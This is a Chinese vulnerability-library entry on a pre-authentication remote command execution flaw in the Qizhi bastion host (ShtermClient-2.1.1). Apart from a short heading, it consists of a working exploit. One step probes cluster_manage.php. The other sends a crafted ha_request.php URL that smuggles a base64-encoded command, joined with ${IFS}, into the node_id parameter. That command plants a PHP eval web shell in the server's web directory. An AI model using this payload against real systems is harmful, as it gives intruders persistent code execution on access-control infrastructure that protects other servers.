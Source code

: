 ```yaml
---
title: '齐治堡垒机前台远程命令执行漏洞-0day'
date: Sat, 12 Sep 2020 15:55:14 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

ShtermClient-2.1.1

### 漏洞利用

1.访问 http://10.20.10.11/listener/cluster\_manage.php 返回OK 2.访问如下链接生成一句话木马

```
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUW3NoZWxsXSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9zaGVsbC5waHA="|base64${IFS}-d|bash`|${IFS}|echo${IFS} 
```